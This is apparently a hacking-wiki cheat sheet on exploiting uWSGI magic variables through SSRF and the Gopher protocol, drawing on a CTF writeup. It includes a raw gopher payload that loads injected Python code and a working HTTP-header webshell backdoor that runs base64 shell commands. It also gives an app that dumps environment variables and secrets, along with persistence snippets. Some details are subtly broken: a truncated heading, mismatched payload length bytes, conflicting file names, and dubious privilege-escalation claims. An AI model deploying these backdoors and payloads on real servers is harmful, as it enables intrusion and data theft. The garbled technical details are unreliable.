 # WSGI Post-Exploitation Tricks

## WSGI Overview

Web Server Gateway Interface (WSGI) is a specification that describes how a web server communicates with web applications, and how web applications can be chained together to process one request. uWSGI is one of the most popular WSGI servers, often used to serve Python web applications.

## uWSGI Magic Variables Exploitation

uWSGI provides special "magic variables" that can be used to dynamically configure the server behavior. These variables can be set through HTTP headers and may lead to serious security vulnerabilities when not properly validated.

### Key Exploitable Variables

#### `UWSGI_FILE` - Arbitrary File Execution

```
uwsgi_param UWSGI_FILE /path/to/python/file.py;
```
This variable allows loading and executing arbitrary Python files as WSGI applications. If an attacker can control this parameter, they can achieve Remote Code Execution (RCE).

#### `UWSGI_SCRIPT` - Script Loading
```
uwsgi_param UWSGI_SCRIPT module.path:callable;
uwsgi_param SCRIPT_NAME /endpoint;
```
Loads a specified script as a new application. Combined with file upload or write capabilities, this can lead to RCE.

#### `UWSGI_MODULE` and `UWSGI_CALLABLE` - Dynamic Module Loading
```
uwsgi_param UWSGI_MODULE malicious.module;
uwsgi_param UWSGI_CALLABLE evil_function;
uwsgi_param SCRIPT_NAME /backdoor;
```
These parameters allow loading arbitrary Python modules and calling specific functions within them.

#### `UWSGI_SETENV` - Environment Variable Manipulation
```
uwsgi_param UWSGI_SETENV DJANGO_SETTINGS_MODULE=malicious.settings;
```
Can be used to modify environment variables, potentially affecting application behavior or loading malicious configuration.

#### `UWSGI_PYHOME` - Python Environment Manipulation
```
uwsgi_param UWSGI_PYHOME /path/to/malicious/venv;
```
Changes the Python virtual environment, potentially loading malicious packages or different Python interpreters.

#### `UWSGI_CHDIR` - Directory Traversal
```
uwsgi_param UWSGI_CHDIR /etc/;
```
Changes the working directory before processing requests, which can be used for path traversal attacks.

## SSRF + Gopher to

### The Attack Vector

When uWSGI is accessible through SSRF (Server-Side Request Forgery), attackers can interact with the internal uWSGI socket to exploit magic variables. This is particularly dangerous when:

1. The application has SSRF vulnerabilities
2. uWSGI is running on an internal port/socket
3. The application doesn't properly validate magic variables

uWSGI is accessible due to SSRF because the config file `uwsgi.ini` contains: `socket = 127.0.0.1:5000` making it accessible from the web application through SSRF.

### Exploitation Example

#### Step 1: Create Malicious Payload
First, inject Python code into a file accessible by the server (file write inside the server, the extension of the file doesn't matter):
```python
# Payload injected into a JSON profile file
import os
os.system("/readflag > /app/profiles/result.json")
```

#### Step 2: Craft uWSGI Protocol Request
Use Gopher protocol to send raw uWSGI packets:
```
gopher://127.0.0.1:5000/_%00%D2%00%00%0F%00SERVER_PROTOCOL%08%00HTTP/1.1%0E%00REQUEST_METHOD%03%00GET%09%00PATH_INFO%01%00/%0B%00REQUEST_URI%01%00/%0C%00QUERY_STRING%00%00%0B%00SERVER_NAME%00%00%09%00HTTP_HOST%0E%00127.0.0.1%3A5000%0A%00UWSGI_FILE%1D%00/app/profiles/malicious.json%0B%00SCRIPT_NAME%10%00/malicious.json
```

This payload:
- Connects to uWSGI on port 5000
- Sets `UWSGI_FILE` to point to the malicious file
- Forces uWSGI to load and execute the Python code

### uWSGI Protocol Structure

The uWSGI protocol uses a binary format where:
- Variables are encoded as length-prefixed strings
- Each variable has: `[name_length][name][value_length][value]`
- The packet starts with a header containing the total size

## Post-Exploitation Techniques

### 1. Persistent Backdoors

#### File-based Backdoor
```python
# backdoor.py
import subprocess
import base64

def application(environ, start_response):
    cmd = environ.get('HTTP_X_CMD', '')
    if cmd:
        result = subprocess.run(base64.b64decode(cmd), shell=True, capture_output=True, text=True)
        response = f"STDOUT: {result.stdout}\nSTDERR: {result.stderr}"
    else:
        response = "Backdoor active"
    
    start_response('200 OK', [('Content-Type', 'text/plain')])
    return [response.encode()]
```

Then use `UWSGI_FILE` to load this backdoor:
```
uwsgi_param UWSGI_FILE /tmp/backdoor.py;
uwsgi_param SCRIPT_NAME /admin;
```

#### Environment-based Persistence
```
uwsgi_param UWSGI_SETENV PYTHONPATH=/tmp/malicious:/usr/lib/python3.8/site-packages;
```

### 2. Information Disclosure

#### Environment Variable Dumping
```python
# env_dump.py
import os
import json

def application(environ, start_response):
    env_data = {
        'os_environ': dict(os.environ),
        'wsgi_environ': dict(environ)
    }
    
    start_response('200 OK', [('Content-Type', 'application/json')])
    return [json.dumps(env_data, indent=2).encode()]
```

#### File System Access
Use `UWSGI_CHDIR` combined with file serving to access sensitive files:
```
uwsgi_param UWSGI_CHDIR /etc/;
uwsgi_param UWSGI_FILE /app/file_server.py;
```

### 3. Privilege Escalation

#### Socket Manipulation
If uWSGI runs with elevated privileges, attackers might manipulate socket permissions:
```
uwsgi_param UWSGI_CHDIR /tmp;
uwsgi_param UWSGI_SETENV UWSGI_SOCKET_OWNER=www-data;
```

#### Configuration Override
```python
# malicious_config.py
import os

# Override uWSGI configuration
os.environ['UWSGI_MASTER'] = '1'
os.environ['UWSGI_PROCESSES'] = '1'
os.environ['UWSGI_CHEAPER'] = '1'
```

## References

- [uWSGI Magic Variables Documentation](https://uwsgi-docs.readthedocs.io/en/latest/Vars.html)
- [IOI SaveData CTF Writeup](https://bugculture.io/writeups/web/ioi-savedata)
- [uWSGI Security Best Practices](https://uwsgi-docs.readthedocs.io/en/latest/Security.html)

